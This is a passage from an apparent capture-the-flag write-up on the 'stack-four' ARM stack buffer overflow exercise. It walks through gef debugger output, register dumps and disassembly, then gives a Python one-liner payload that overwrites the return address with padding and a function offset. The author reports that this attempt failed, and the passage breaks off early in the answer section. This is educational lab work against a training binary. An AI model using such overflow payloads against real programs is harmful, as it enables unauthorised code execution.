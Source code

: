 ```

gef> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()

gef> bt
#0  0x00000000 in ?? ()
#1  0x0001058c in start_level ()
```
The crash happened in the last line below (`0x0001058c`).  But if you read the instruction at `0x00010584` it was trying to put something into register 0.  

```
0x00010584      0c009fe5       ldr r0, loc._d_12           ; [0x10598:4]=0x10620  <----
0x00010588      8bffffeb       bl sym.imp.printf           ; int printf(const char *format)
0x0001058c      0000a0e1       mov r0, r0
```
What was `0x10620`?
```
gef> x/s 0x10620
0x10620:	"and will be returning to %p\n"
```
If you re-run it with `79 x A` look at `r11`, it started to fill:
```
$r11 : 0x414141  
$r12 : 0x1       
$sp  : 0xfffefd80  →  0x00000000
$lr  : 0x0001058c  →  <start_level+44> nop ; (mov r0,  r0)
$pc  : 0x0
```
I used 76 x As and the offset of the `complete_level` function:
```
// Offset = 0x00010544
$ python -c 'print "A"*(76) + "\x44\x05\x01\x00"' | ./stack-four

───────────────────────────────────────────────────────────────────── stack ────
0xfffe0004│+0x0000: 0x00000000	 ← $sp
────────────────────────────────────────────────────────────── code:arm:ARM ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x0
```
Failed.
##### Answer
Breakpoint on the `segfault` at offset `0x0001058c` in `start_level`.
```
// Normal flow, no overflow 4 x As
gef> x $fp
0xfffefd74:	0x000105bc
```
We met that pointer value earlier, when we ran the code:


  [6435d6f8]: https://azeria-labs.com/functions-and-the-stack-part-7/ "stack explained on ARM"